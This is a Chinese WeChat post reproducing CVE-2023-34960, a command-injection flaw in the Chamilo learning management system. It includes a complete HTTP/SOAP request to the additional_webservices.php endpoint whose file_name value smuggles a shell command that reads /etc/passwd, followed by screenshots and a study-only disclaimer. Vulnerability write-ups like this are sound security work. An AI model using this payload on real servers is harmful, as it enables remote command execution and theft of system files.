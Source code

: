 #  (CVE-2023-34960)｜Chamilo 命令执行漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#复现 15 个

#命令执行 4 个

#漏洞 23 个

#漏洞复现 29 个

**漏洞说明**

Chamilo是一种开源学习管理系统(LMS),用于改善世界各地的教育和知识的获取。这是一个全球人才管理系统，专注于易用性，速度和在线培训计划。它使用PHP,jQuery和MariaDB,可以与Apache或Nginx一起安装在GNU
/ Linux,macOS和Windows上，也可以与IIS一起安装 。

Chamilo是一个免费的软件在线学习平台，根据GNU / GPLv3许可，面对面，半面对面或虚拟学习的管理旨在改善全球范围内获得教育和知识的机会。

                                                                  ——————————以上说明来自星火大模型

Chamilo存在命令执行漏洞，恶意攻击者可以通过构造的xml文件任意命令，进而控制服务器。

 **影响版本**

  * 

    
    
     Chamilo

漏洞复现  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230620103512.png)

paylaod：  

  *   *   *   *   *   *   *   *   *   * 

    
    
    POST /main/webservices/additional_webservices.php HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36Connection: closeContent-Length: 872Content-Type: text/xml; charset=utf-8Accept-Encoding: gzip, deflate  
    <?xml version="1.0" encoding="UTF-8"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="{http://ip:port}" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:ns2="http://xml.apache.org/xml-soap" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:wsConvertPpt><param0 xsi:type="ns2:Map"><item><key xsi:type="xsd:string">file_data</key><value xsi:type="xsd:string"></value></item><item><key xsi:type="xsd:string">file_name</key><value xsi:type="xsd:string">`{}`.pptx'|" |cat /etc/passwd||a #</value></item><item><key xsi:type="xsd:string">service_ppt2lp_size</key><value xsi:type="xsd:string">720x540</value></item></param0></ns1:wsConvertPpt></SOAP-ENV:Body></SOAP-ENV:Envelope>

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230620103551.png)

 **修复建议**

暂无  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

